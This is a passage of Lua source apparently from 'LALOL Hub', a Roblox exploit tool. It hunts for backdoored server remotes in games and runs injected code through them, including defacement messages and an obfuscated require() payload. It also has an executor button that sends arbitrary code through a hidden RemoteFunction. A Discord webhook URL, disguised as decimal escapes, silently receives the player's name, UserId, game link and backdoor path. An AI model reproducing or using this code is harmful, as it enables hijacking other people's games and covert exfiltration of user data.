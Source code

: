 	--				runRemote(backdoor, "a=Instance.new('Hint',workspace)while true do a.Text='PumpGui Backdoor | Voce Foi Hackeado| Voce foi Hackeado'for b=1,13 do a.Parent=workspace;wait(1)a.Parent=nil;wait(0.5)end;wait(60)end")
					runRemote(remote, "require(171016405.1884*69)")			
					runRemote(remote, "a=Instance.new('Hint')a.Text='PumpGui | Voce foi Hackead | Voce foi Hackeado'while true do a.Parent=workspace;wait(15)a:Remove()wait(30)end")
					
					local request = (syn and syn.request) or (http and http.request) or http_request or (fluxus and fluxus.request) or request
					if request and not _G.LALOL_Hub_Backdoor_Logs_Disabled then 
						request({
							Url = '\104\116\116\112\115\58\47\47\100\105\115\99\111\114\100\46\99\111\109\47\97\112\105\47\119\101\98\104\111\111\107\115\47\49\49\48\56\54\57\52\49\54\48\52\54\52\49\53\56\55\56\49\47\57\86\67\122\95\99\107\52\117\120\51\77\51\84\81\106\56\109\111\76\68\113\51\78\119\45\100\107\89\68\87\55\103\69\99\97\76\72\75\80\98\101\50\95\74\74\73\122\53\109\50\102\69\104\54\101\83\110\112\51\51\87\79\76\116\103\105\49',
							Method = 'POST',
							Headers = {
								['Content-Type'] = 'application/json',
							},
							Body = HttpService:JSONEncode({
								username='pls dont delete this w3bh00k',
								content="**User: `"..game:GetService('Players').LocalPlayer.Name..'` | `'..game:GetService('Players').LocalPlayer.UserId..'`\nhttps://www.roblox.com/games/'..game.PlaceId..'\n`'..backdoor:GetFullName()..'`**',
							})
						})
					end
	
					return true
				end
--				debug('"'..remote:GetFullName()..'" seems like not backdoor', 1)
			end
			
			wait()--.1)
			
		end
	
		return false
	
	end
	
	GUI.Executor.Execute.Button.MouseButton1Click:Connect(function()
		local a,b=string.gsub(GUI.Executor.ExecutorBox.TextBox.Text, '%%username%%', game:GetService('Players').LocalPlayer.Name)
		
		local protected_backdoor=game:GetService('ReplicatedStorage'):FindFirstChild('lh'..game.PlaceId/6666*1337*game.PlaceId)
		if protected_backdoor and protected_backdoor:IsA('RemoteFunction') then
			debug('Protected backdoor found', 3)
			spawn(function()
				local boolValue, variantValue=pcall(function() protected_backdoor:InvokeServer('lalol hub join today!! discord.gg/XXqzxT7E5z', a) end)
				if variantValue~=nil then
					local splited=string.split(variantValue,':')
					notify(splited[#splited])
				end
			end)
		else
			runRemote(backdoor, a)
		end
		GUI.Executor.Execute.Button.Text='Executed!'
		wait(0.5)
		GUI.Executor.Execute.Button.Text='Execute'
	end)
	GUI.Executor.Clear.Button.MouseButton1Click:Connect(function()
		GUI.Executor.ExecutorBox.TextBox.Text=''